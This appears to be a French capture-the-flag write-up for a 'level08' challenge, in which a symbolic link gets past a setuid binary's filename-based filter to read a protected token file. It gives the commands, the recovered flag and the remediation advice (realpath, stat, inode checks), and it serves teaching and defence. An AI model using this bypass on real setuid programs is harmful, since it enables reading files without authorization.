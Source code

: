 # Rapport de Vulnérabilité : Contournement de filtre par lien symbolique

## Description

Dans ce niveau, un fichier `token` contient un flag mais est inaccessible directement via le programme `level08`. Le binaire exécutable `level08` fonctionne avec les droits de l’utilisateur `flag08` (grâce au **setuid**), ce qui signifie qu’il a les permissions pour executer le fichier `token`. Cependant, un filtrage sur le **nom du fichier** empêche un accès direct à `token`. En utilisant un **lien symbolique** pointant vers ce fichier sous un autre nom, il est possible de contourner ce filtre et de lire le contenu du fichier.

## Comment Exploiter la Faille

### Étape 1 : Analyse des fichiers et des permissions

```bash
ls -l
```

**Résultat :**

```
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

* Le fichier `level08` a le **bit SUID** et s’exécute avec les droits de `flag08`.
* Le fichier `token` est lisible uniquement par `flag08`.

### Étape 2 : Exécution du programme avec le fichier bloqué

```bash
./level08 token
```

**Résultat :**

```
You may not access 'token'
```

Le binaire refuse explicitement l’accès au fichier s’il s’appelle **token**.

Le programme bloque visiblement l'accès en fonction du **nom** du fichier fourni, et non de son contenu ou de sa cible réelle.

### Étape 3 : Création d’un lien symbolique

Créer un lien symbolique vers `token` avec un autre nom :

```bash
ln -s ~/token /tmp/lien.txt
```

### Étape 4 : Exécution du binaire avec le lien symbolique

```bash
./level08 /tmp/lien.txt
```

**Résultat :**

```
quif5eloekouj29ke0vouxean
```

Le flag est lu avec succès via le lien, car le programme n’a pas détecté le nom `token`.

---

## Comment Résoudre la Faille

Pour corriger cette vulnérabilité :

* **Ne jamais filtrer uniquement sur le nom du fichier** : Cela peut facilement être contourné avec des liens symboliques ou des chemins alternatifs.
* **Vérifier l'identité réelle du fichier** : Utiliser `realpath()`, `stat()` ou vérifier l'inode ou l’UID propriétaire.
* **Limiter les chemins d'accès** : Restreindre les accès à un répertoire spécifique, sans autoriser les liens symboliques extérieurs.

## Conclusion

Cette vulnérabilité montre qu’un contrôle basé uniquement sur le nom d’un fichier est insuffisant. En créant un lien symbolique vers une ressource protégée, un attaquant peut facilement contourner cette restriction. Il est essentiel de **valider la cible réelle** des fichiers manipulés pour garantir la sécurité.

---
